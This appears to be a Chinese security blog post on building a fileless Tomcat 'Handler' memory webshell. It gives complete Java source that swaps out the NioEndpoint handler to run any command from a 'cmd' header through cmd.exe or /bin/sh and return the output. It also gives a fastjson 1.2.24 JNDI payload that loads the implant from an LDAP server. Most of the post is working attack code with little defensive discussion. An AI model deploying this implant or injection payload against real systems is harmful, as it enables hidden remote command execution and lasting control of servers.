





# 连接器内存马 - handle - 先知社区

## 0x 00 前言

为何要写这篇文章呢  
在前篇连接器中内存马的构造 - Adapter 内存马中，已经详细论述了连接器这边内存马该如何构造。  
但忽略了一个问题，对于比较靠前的组件，数据还没有解析到请求里面，导致以下方法根本获取不到请求头中的数据

```plain
processor.getRequest().getHeader("cmd");
```

这个时候该怎么获取请求的数据呢？  
而且回显的 response 也没准备好，直接获取 response 写入数据，不仅会出异常，而且还无法回显。  
这种情况下如何进行数据回显呢？  
所以就有了这篇文章。

本文从构造 handle 马开始，详细论述如何解决上述问题。

## 0x 01 理论基础

AbstractProtocol.ConnectionHandler#public SocketState process (SocketWrapperBase<s> wrapper, SocketEvent status) 方法，</s>

<s>

该方法会根据不同的协议创建不同的 Processor ，之后调用 Processor 的 process 方法

默认是 Http11NioProtocol，会调用的是 Http11Processor 的 process 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327152534-33745520-ec0b-1.png)

往前一步，可以发现这个 handle 就是 NioEndpoint 的 handler 属性

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327152541-37505522-ec0b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327152546-3a8b7a78-ec0b-1.png)

我们只需要获取内存中的 NioEndpoint，并替换它的 handle 为我们的 handle 马，就可以完成注入

## 0x 02 构造

### 内存马注入

还是可以借助 java 内存对象搜索辅助工具在内存中寻找 NioEndpoint

```plain
https://github.com/c0ny1/java-object-searcher
```

这里直接给出方法

```plain
public static Object getNioEndpoint() {
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        if (thread == null) {
            continue;
        }
        if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
            Object target = getField(thread, "target");
            Object jioEndPoint = null;
            try {
                jioEndPoint = getField(target, "this$0");
            } catch (Exception e) {
            }
            if (jioEndPoint == null) {
                try {
                    jioEndPoint = getField(target, "endpoint");
                    return jioEndPoint;
                } catch (Exception e) {
                    new Object();
                }
            } else {
                return jioEndPoint;
            }
        }

    }
    return new Object();
}
```

我们虽然获取了 NioEndpoint，但不能直接替换，先得要把原来的 handle 取出来，我们的 handle 的 process 逻辑执行完再执行原来的 handle 逻辑

```plain
NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
handler = nioEndpoint.getHandler();
MyHandler myHandler = new MyHandler();
nioEndpoint.setHandler(myHandler);
```

### 请求获取

最开始想的是通过 NioEndpoint 获取 processor

```plain
Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
        for (SocketWrapperBase<NioChannel> c : connections) {
            Object currentProcessor = c.getCurrentProcessor();
            if (null != currentProcessor) {
                processor = (Processor) currentProcessor;
                break;
            }
        }
```

processor 获取 request，request 获取请求头中请求的命令。

```plain
processor.getRequest().getHeader("cmd");
```

但很可惜，根本获取不到，究其原因，是流中的数据没有解析到 request 中，当执行完以下方法的时候，才能获取流中的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327152716-70039eec-ec0b-1.png)

既然如此，那就不用 request 获取请求头的数据了，直接获取 inputBuffer 的全部数据，之后 indexof 查找请求是否有我们的标识，如果有就取出命令并执行

```plain
ByteBuffer heapByteBuffer = ((Http11InputBuffer) getField(processor, "inputBuffer")).getByteBuffer();
        try {
            String a = new String(heapByteBuffer.array(), "UTF-8");
            System.out.println(a);
            if (a.indexOf("cmd") != -1) {
                System.out.println(a.indexOf("cmd"));
                String cmd = a.substring(a.indexOf("cmd") + "cmd".length() + 1, a.indexOf("\r", a.indexOf("cmd")) - 1);
                exec(processor.getRequest(), cmd);
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
```

但有个弊端，获取到的 request 其实是前一次（或者前几次，跟线程数有关）的缓存数据，所以可能第二三四次请求，获取的命令还是第一次请求的命令，太不稳定了。

于是想到了开启一个线程，这个线程不断从尝试从 request 中获取命令，并执行命令。但依然不够稳定，因为能获取到 request 数据，只有从解析请求到请求完成的中间。

bluE0 大佬发现 Poller 组件的 NioSocketWrapper 的 read 方法可成功获取当次的 request 请求，数据从流中读取出来，为了不影响后续的处理，还需要将数据放入流中，正好该类有个 unRead 方法可以将读取出来的数据又放回去。

而我们内存马重写的 process 方法的参数，正好就有这个 NioSocketWrapper

所以就有了以下代码

```plain
byte[] bytes = new byte[8192];
        ByteBuffer buf = ByteBuffer.wrap(bytes);
        try {
            wrapper.read(false, buf);
            buf.position(0);
            wrapper.unRead(buf);
           String a = new String(buf.array(), "UTF-8");
           if (a.indexOf("cmd") != -1) {
           //取出请求命令，执行命令
           }

        } catch (Exception e) {
            e.printStackTrace();
            buf.position(0);
            wrapper.unRead(buf);
        }
```

### 数据回显

最开始想的是从 processor 中获取 request，request 获取 response，response 写入回显

但实际 response 写数据实际是调用 wrapper 写数据，在执行 AbstractEndpoint.Handler#process 方法的时候，processor 中 wrapper 为 null，需要给其赋值

```plain
Method setMethod = processor.getClass().getDeclaredMethod("setSocketWrapper", SocketWrapperBase.class);
                // 设置方法可访问
                setMethod.setAccessible(true);
                // 调用私有方法
                setMethod.invoke(processor, wrapper); // 传入参数
```

如果将数据写入后，直接执行 handler.process (wrapper, status);，的确能回显，但说到底不够优雅。

既然已经带有 cmd 指令，说明是我们需要处理的恶意请求，执行完命令之后就没必要给容器处理了，直接返回 SocketState.CLOSED 就好

但这个时候又不回显。猜测应该是流没有 flush，之后看看谁调用这个流刷新的方法，发现有个 finishResponse 方法

```plain
Method finshMethod = processor.getClass().getDeclaredMethod("finishResponse");
                finshMethod.setAccessible(true);
                finshMethod.invoke(processor);
```

调用该方法将流刷新，数据成功回显。

完整构造如下

```plain
import org.apache.coyote.Processor;
import org.apache.tomcat.util.net.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.ByteBuffer;
import java.util.Set;

public class MyHandler implements AbstractEndpoint.Handler {
    private static AbstractEndpoint.Handler handler;
    private static Processor processor;

    static {
        NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
        handler = nioEndpoint.getHandler();
        MyHandler myHandler = new MyHandler();
        nioEndpoint.setHandler(myHandler);
        Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
        for (SocketWrapperBase<NioChannel> c : connections) {
            Object currentProcessor = c.getCurrentProcessor();
            if (null != currentProcessor) {
                processor = (Processor) currentProcessor;
                break;
            }
        }

    }


    public static Object getNioEndpoint() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }

        }
        return new Object();
    }


    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }


    @Override
    public SocketState process(SocketWrapperBase wrapper, SocketEvent status) {
        byte[] bytes = new byte[8192];
        ByteBuffer buf = ByteBuffer.wrap(bytes);
        try {
            wrapper.read(false, buf);
            buf.position(0);
            wrapper.unRead(buf);

        } catch (Exception e) {
            e.printStackTrace();
            buf.position(0);
            wrapper.unRead(buf);
        }
        SocketState r = SocketState.CLOSED;

        try {
            String a = new String(buf.array(), "UTF-8");
            System.out.println(a);
            if (a.indexOf("cmd") != -1) {
                //setSocketWrapper  response写数据实际是调用wrapper写数据，不调用该方法wrapper为null
                Method setMethod = processor.getClass().getDeclaredMethod("setSocketWrapper", SocketWrapperBase.class);
                // 设置方法可访问
                setMethod.setAccessible(true);
                // 调用私有方法
                setMethod.invoke(processor, wrapper); // 传入参数
                String cmd = a.substring(a.indexOf("cmd") + "cmd".length() + 1, a.indexOf("\r", a.indexOf("cmd")));
                byte[] result = exec(cmd.trim());
                processor.getRequest().getResponse().doWrite(ByteBuffer.wrap(result));
                //调用finishResponse，使流刷新
                Method finshMethod = processor.getClass().getDeclaredMethod("finishResponse");
                finshMethod.setAccessible(true);
                finshMethod.invoke(processor);
//                processor.getRequest().getResponse().addHeader("type:","afeafaeaaw");
            } else {
                r = handler.process(wrapper, status);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return r;
    }

    public byte[] exec(String c) {
        System.out.println(c);
        byte[] result = new byte[]{};
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", c} : new String[]{"/bin/sh", "-c", c};
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (Exception e) {
        }
        return result;
    }

    @Override
    public Object getGlobal() {
        return null;
    }

    @Override
    public Set getOpenSockets() {
        return null;
    }

    @Override
    public void release(SocketWrapperBase socketWrapper) {

    }

    @Override
    public void pause() {

    }

    @Override
    public void recycle() {

    }
}
```

## 0x 03 验证

将该马加入 jndi 测试工具，

测试环境为 fastjson1.2.24，jdk8

打入以下 payload

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/0/MyHandler/123","autoCommit":true}
```

jndi 测试工具会返回指向 MyAdapter 内存马的 reference

之后受害服务器远程通过 reference 远程加载构造的 Handler 马

执行器静态代码块中的逻辑，将内存中的 NioEndpoint 的 handle 替换为我们的 handle 马

之后发送任意路径下的请求，都会到我们 handle 马的 process 方法，如果请求头中带有 cmd，则会执行命令并将结果返回

否则就 handler.process (wrapper, status); 将其交给容器处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327152500-1ec4fd32-ec0b-1.png)

至此，一个没有被大家提出过的内存马就构造出来了，相比于之前构造的 adapter 内存马，由于请求数据并没有解析，所以只能从流中获取。

响应也不能直接 response 设置回显，得将 wrapper 添加进去，得调用 finishResponse 方法。

## 0x 04 写后感

在 [**bluE0**](https://xz.aliyun.com/u/40487) 大佬文章最后，有这么一句话：

- - -

Tomcat8.0 以前版本在处理 io 时直接使用 NioChannel.read (buf) 作为获取数据流的方法，而不同于 8.5 版本使用封装类 SocketWrapperBase，故其中的处理逻辑不支持 read () 后将 buf 再重新放回原有的 socket（这个说法其实并不准确，其实是 tomcat 在 SocketWrapperBase 中手动实现了一个 transform 方法将已读出的 read 数据放入后续需要进行处理的 read buffer 中），所以对于 8.0 以前的版本文中所提到的截获 socket 的方法可能并不适用，还是得使用缓存实现。

- - -

但用缓存实现，可能读到前几次请求的数据，也不够稳定，说到底，对于请求数据没有解析到请求里面，目前还没发现兼容各版本，获取请求数据比较好的解决方案。

所以建议寻找作为内存马的组件，是在 processor 解析完请求之后的组件。

参考链接：

[Executor 内存马的实现（二） - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11613?time__1311=mqmx0DBDuDnDcDj2DBw4%2BxCwcSj5jwbAD)

[连接器中内存马的构造 - Adapter 内存马 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/14157?time__1311=mqmx9DBQqWqCwx05DIYYKvcRYm2QMTD)

java 内存对象搜索辅助工具

[https://github.com/c0ny1/java-object-searcher](https://github.com/c0ny1/java-object-searcher)

</s>
